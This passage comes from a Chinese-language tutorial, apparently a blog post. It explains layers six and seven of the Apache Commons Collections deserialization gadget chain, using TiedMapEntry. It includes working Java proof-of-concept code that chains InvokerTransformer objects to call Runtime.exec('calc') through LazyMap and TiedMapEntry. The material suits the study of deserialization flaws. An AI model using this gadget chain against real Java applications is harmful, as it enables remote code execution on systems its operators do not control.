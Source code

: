 

* 第六层`org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()`

查看`TiedMapEntry`类，里面只有`getValue()`调用了`get()`

```java
public Object getValue() {
    return map.get(key);
}
```

查看构造方法

```java
public TiedMapEntry(Map map, Object key) {
    super();
    this.map = map;
    this.key = key;
}
```

发现`map`和`key`都是可以控制的

所以构造方法如下：

```java
Transformer[] transformers = new Transformer[]{
      new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
      new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
      new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);

//只加了这两行
TiedMapEntry tiedmap = new TiedMapEntry(map,Runtime.class);
tiedmap.getValue();
```



* 第七层`org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()`

刚刚是使用了`TiedMapEntry.getValue()`, 在`TiedMapEntry`类中，有几个方法用到了`getValue()`

其中就有`hashCode()` --------------(为啥要用这个？到后面就知道了)

```java
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```
